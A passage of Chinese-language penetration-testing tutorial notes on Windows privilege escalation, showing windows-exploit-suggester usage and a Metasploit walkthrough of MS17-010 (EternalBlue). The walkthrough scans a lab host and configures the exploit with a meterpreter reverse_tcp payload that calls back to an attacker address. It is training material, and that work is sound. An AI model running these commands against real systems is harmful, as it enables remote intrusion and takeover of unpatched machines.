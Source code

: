 ```
实操：
>python windows-exploit-suggester.py --update
[*] initiating winsploit version 3.3...
[+] writing to file 2020-04-14-mssb.xls
[*] done
>systeminfo > win2003.txt
>python windows-exploit-suggester.py --audit -i win2003.txt -d 2020-04-14-mssb.xls
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
...
```



### 8-4Windows远程提权（以ms17-010为例）

- 远程提权
  - 在授权的情况下，针对目标机器进行渗透测试，需要对目标进行提权。可以首先扫描系统是否存在可利用漏洞，探测是否可以利用。
  - 如果可以直接利用获得最高权限，那么就不需要本地提权，直接远程提权拿到最高权限。
- ms17-010介绍
  - MS17-010是一个安全类型的补丁，MS17-010更新修复了Microsoft Windows中的漏洞。 如果攻击者向 Microsoft 服务器消息块 1.0 (SMBv1) 服务器发送经特殊设计的消息，则其中最严重的漏洞可能允许远程代码执行。
  - WannaCry（又叫Wanna Decryptor），一种“蠕虫式”的勒索病毒软件，大小3.3MB，由不法分子利用NSA（National Security Agency，美国国家安全局）泄露的危险漏洞“EternalBlue”（永恒之蓝）进行传播 。勒索病毒肆虐，俨然是一场全球性互联网灾难，给广大电脑用户造成了巨大损失。最新统计数据显示，100多个国家和地区超过10万台电脑遭到了勒索病毒攻击、感染。 勒索病毒是自熊猫烧香以来影响力最大的病毒之一。
- 扫描探测ms17-010漏洞
  - 在metasploit下直接利用ms17-010的漏洞扫描模块进行探测。
- 利用ms17-010漏洞提权
  - 在Metasploit下集成了ms17-010的漏洞利用模块 。

```
实操
#扫描探测ms17-010漏洞
root@kali:~# msfconsole
msf5 > search ms17-010
msf5 > use auxiliary/scanner/smb/smb_ms17_010 
msf5 auxiliary(scanner/smb/smb_ms17_010) > show options
msf5 auxiliary(scanner/smb/smb_ms17_010) > set rhosts 192.168.177.134
msf5 auxiliary(scanner/smb/smb_ms17_010) > run
[+] 192.168.177.134:445   - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7600 x64 (64-bit)
[*] 192.168.177.134:445   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

#以上探测结果表明靶机存在ms17-010漏洞
#下面开始利用ms17-010漏洞提权
msf5 auxiliary(scanner/smb/smb_ms17_010) > use exploit/windows/smb/ms17_010_eternalblue
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options
msf5 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options
msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 192.168.177.134
msf5 exploit(windows/smb/ms17_010_eternalblue) > set lhost 192.168.177.128
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         192.168.177.134  yes       The target address range or CIDR identifier
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
```